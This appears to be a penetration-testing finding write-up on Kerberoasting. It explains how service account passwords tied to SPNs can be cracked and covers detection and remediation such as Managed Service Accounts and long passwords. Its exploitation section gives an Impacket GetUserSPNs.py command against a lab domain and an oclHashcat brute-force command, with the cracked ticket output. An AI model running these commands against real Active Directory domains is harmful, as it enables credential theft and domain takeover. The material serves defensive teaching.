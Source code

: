/*
Title: Weak SPN Password
Description: Crackable password attached to SPN
*/

- LAST UPDATED DATE: 2016/05/25
- LAST UPDATED BY: @mubix

## Summary

Service Principal Names (SPNs) are a Microsoft way of desinating and identifying where services are running in a domain. These SPNs are attached to accounts within active directory. Any Domain User has the ability to lookup these attributes and request access to the service they provide. The Active Directory Domain Controller will issue the user requesting access to the service a Kerberos ticket. This ticket includes in it the encrypted and hashed password for the user the service is running under. Microsoft does this to allow access in the process of that service.

Example SPN Kerberos Tickets:

```
Id                   : uuid-7856e72a-2c40-4d94-a939-8c671b80e2bd-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKe
                       y}
ValidFrom            : 5/19/2016 3:06:41 PM
ValidTo              : 5/20/2016 12:53:24 AM
ServicePrincipalName : http/win10.sittingduck.info
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

Id                   : uuid-7856e72a-2c40-4d94-a939-8c671b80e2bd-3
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKe
                       y}
ValidFrom            : 5/19/2016 3:06:41 PM
ValidTo              : 5/20/2016 12:53:24 AM
ServicePrincipalName : MSSQLSvc/WIN2K8R2.sittingduck.info
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```

## Capabilities and Risk

An attacker can use the SPN services to request tickets for all of the SPNs listed in the domain and attempt to crack the passwords for all of the users the services are running under. If the SPN services are running under a user context, and the attacker is able to brute force crack the password for that user, the attacker can then utilize that password in any way that user has permissions for.

- Aquire list of services running on a particular host
- Aquire Kerberos tickets with the context of the user running the service
- Compromise a domain based on the level of the user running the SPN service (Domain Admin accounts have been used to run Services in the past)

## Detection

Because this is standard usage of Active Directory it blends into normal daily traffic. Windows Advanced Threat Analytics (ATA) has a module that includes detection of large numbers of SPN Kerberos ticket requests. The other useful detection mechanism is to detect any time a service account is used outside of the machine to which it is assigned.

## Remediation

- Use Managed Service Accounts if possible. They are automatically restricted to a single machine (will not work for cluster services), and change their password on a regular basis much like computer accounts.
- Insure that any service accounts have long, strong passwords (20 character+)

## References

- [Service Principal Names](https://msdn.microsoft.com/en-us/library/ms677949(v=vs.85\).aspx)
- [Managed Service Accounts](https://technet.microsoft.com/en-us/library/dd560633(v=ws.10\).aspx)
- [Cracking Kerberos TGS Tickets Using Kerberoast - Exploiting Kerberos to Compromise the Active Directory Domain - Sean Metcalf - ADSecurity.org](https://adsecurity.org/?p=2293)

## Exploitation

Acquire list of SPNs and request them using Impacket's GetUserSPNs.py example script:
```
root@wpad:~/impacket/examples# ./GetUserSPNs.py -dc-ip 192.168.168.10 sittingduck.info/notanadmin
Impacket v0.9.15-dev - Copyright 2002-2016 Core Security Technologies

Password:
ServicePrincipalName                Name        MemberOf                                          PasswordLastSet
----------------------------------  ----------  ------------------------------------------------  -------------------
http/win10.sittingduck.info         uberuser    CN=Domain Admins,CN=Users,DC=sittingduck,DC=info  2015-11-10 23:47:21
MSSQLSvc/WIN2K8R2.sittingduck.info  sqladmin01         
```

Crack the service ticket password using oclHashcat:
```
root@sf:~/oclHashcat# ./oclHashcat -m 13100 hash -w 3 -a 3 ?l?l?l?l?l?l?l 
oclHashcat v2.01 (g0891e39) starting...

Device #1: Hawaii, 2858/4025 MB allocatable, 1010Mhz, 44MCU
Device #2: AMD FX(tm)-8120 Eight-Core Processor, skipped

Hashes: 1 hashes; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Applicable Optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt
* Brute-Force
Watchdog: Temperature abort trigger set to 90c
Watchdog: Temperature retain trigger set to 80c

Device #1: Kernel /root/git/oclHashcat/kernels/m13100_a3.919aa8b9.kernel (234320 bytes)
Device #1: Kernel /root/git/oclHashcat/kernels/markov_le.919aa8b9.kernel (36184 bytes)

Device #1: autotuned kernel-accel to 64
Device #1: autotuned kernel-loops to 50

[s]tatus [p]ause [r]esume [b]ypass [c]heckpoint [q]uit =>

$krb5tgs$23$*user$realm$test/hashcat*$08e2261b7a89e56f530b2f7e0620fe8b$ecdca97c13814c95810d7706faf986dad98d06ba033fc5a45fbe9b417b855db5:hashcat

Session.Name...: oclHashcat
Status.........: Cracked
Input.Mode.....: Mask (?l?l?l?l?l?l?l) [7]
Hash.Target....: $krb5tgs$23$*user$realm$test/hashcat*$08e...
Hash.Type......: Kerberos 5 TGS-REP etype 23
Time.Started...: Wed Feb 17 08:33:57 2016 (5 secs)
Speed.Dev.#1...:   111.0 MH/s (80.83ms)
Recovered......: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.......: 252313600/8031810176 (3.14%)
Rejected.......: 0/252313600 (0.00%)
Restore.Point..: 0/456976 (0.00%)
HWMon.GPU.#1...:  0% Util, 42c Temp, 20% Fan

Started: Wed Feb 17 08:33:57 2016
Stopped: Wed Feb 17 08:34:04 2016
```
